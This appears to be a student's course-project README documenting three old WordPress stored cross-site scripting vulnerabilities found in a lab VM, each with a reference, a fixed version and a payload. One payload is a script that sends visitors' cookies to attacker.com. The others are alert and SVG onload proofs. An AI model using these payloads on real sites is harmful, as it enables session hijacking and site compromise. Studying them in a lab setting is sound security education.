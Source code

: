 # Week-7-Project-WordPress-vs.-Kali


[!] Title: WordPress <= 4.2 - Unauthenticated Stored Cross-Site Scripting (XSS) <br>
    Reference: https://www.exploit-db.com/exploits/36844/ <br>
[i] Fixed in: 4.2.1 <br>
If triggered by a logged-in administrator, under default settings the attacker can leverage the vulnerability to 
execute arbitrary code on the server via the plugin and theme editors. <br>
<code>  <a title='x onmouseover=alert(unescape(/hello%20world/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px x </code><br>
<img src="https://i.imgur.com/kKKLoZh.gif" width="800"> <br>


[!] Title: WordPress <= 4.2.3 - Widgets Title Cross-Site Scripting (XSS) <br>
    Reference: https://wpvulndb.com/vulnerabilities/8131 <br>
[i] Fixed in: 4.2.4 <br>
Top 10 2013-A3-Cross-Site Scripting (XSS) <br>
https://www.owasp.org/index.php/Top_10_2013-A3-Cross-Site_Scripting_(XSS) <br>
If the attacker could trick the admin to post this as a comment: <br>
<code>(String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("'><script>document.location= 'http://www.attacker.com/cgi-bin/cookie.cgi ?foo='+document.cookie</script>'.") + "'>"; </code><br>
we would get a working XSS exploit that would forward wpdistillery.vm visitors to attacker.com <br>
<img src="https://i.imgur.com/3mrNRXU.gif" width="800"> <br>


[!] Title: WordPress  4.0-4.7.2 - Authenticated Stored Cross-Site Scripting (XSS) in YouTube URL Embeds <br>
    Reference: https://blog.sucuri.net/2017/03/stored-xss-in-wordpress-core.html <br>
This issue was patched in WordPress 4.7.3. <br>
If the attacker could trick the admin to post this as a comment: <br>
<code><embed src='https://youtube.com/embed/12345\x3csvg onload=alert(1)\x3e'></embed> </code><br>
we could get a stored XSS exploit. <br>
<img src="https://i.imgur.com/msRn9YG.gif" width="800"> <br>

